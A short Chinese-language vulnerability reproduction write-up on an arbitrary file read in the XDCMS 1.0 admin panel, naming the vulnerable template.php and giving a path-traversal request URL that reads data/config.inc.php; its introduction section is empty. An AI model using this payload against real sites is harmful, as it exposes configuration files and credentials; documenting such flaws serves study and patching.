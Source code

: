 XDCMS 1.0 后台任意文件读取
==========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![](./.resource/XDCMS1.0后台任意文件读取/media/rId24.jpg)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

    http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php

后台任意文件读取。

![](./.resource/XDCMS1.0后台任意文件读取/media/rId25.jpg)
